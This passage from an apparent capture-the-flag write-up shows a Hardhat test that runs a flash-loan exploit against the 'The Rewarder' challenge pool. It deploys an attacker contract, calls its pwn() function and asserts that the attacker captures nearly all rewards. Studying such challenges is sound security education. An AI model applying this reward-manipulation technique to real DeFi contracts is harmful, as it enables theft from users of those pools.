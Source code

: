 ```ts

    // attacker starts with zero DVT tokens in balance
    expect(await liquidityToken.balanceOf(attacker.address)).to.eq(0);

    // two rounds should have occurred so far
    // round 0 -> 1: during constructor
    // round 1 -> 2: during distributeRewards (the first time it is called after 5 days)
    expect(await rewarderPool.roundNumber()).to.be.eq(2);
  });

  it('should take most of the rewards thanks to a flash loan', async () => {
    const attackerContract = await ethers
      .getContractFactory('TheRewarderAttacker', attacker)
      .then(f => f.deploy(flashLoanPool.address, rewarderPool.address));

    // wait some time
    await fastForward({d: 5});

    await attackerContract.connect(attacker).pwn(TOKENS_IN_LENDER_POOL);
  });

  after(async () => {
    // only one round should have taken place
    expect(await rewarderPool.roundNumber()).to.be.eq(3);

    // users should get neglegible rewards this round
    for (const user of users) {
      await rewarderPool.connect(user).distributeRewards();
      const rewards = await rewardToken.balanceOf(user.address);

      // the difference between current and previous rewards balance should be lower than 0.01 tokens
      const delta = rewards.sub(ethers.utils.parseEther('25'));
      expect(delta).to.be.lt(ethers.utils.parseUnits('1', 16)); // isnt this same as parse(0.01)?
    }

    // rewards must have been issued to the attacker account
    expect(await rewardToken.totalSupply()).to.be.gt(ethers.utils.parseEther('100'));
    const rewards = await rewardToken.balanceOf(attacker.address);

    // the amount of rewards earned should be really close to 100 tokens
    const delta = ethers.utils.parseEther('100').sub(rewards);
    expect(delta).to.be.lt(ethers.utils.parseUnits('1', 17));

    // attacker finishes with zero DVT tokens in balance
    expect(await liquidityToken.balanceOf(attacker.address)).to.eq(0);
  });
});
```

The `fastForward` function here is just some utility function I wrote, it is written as follows:

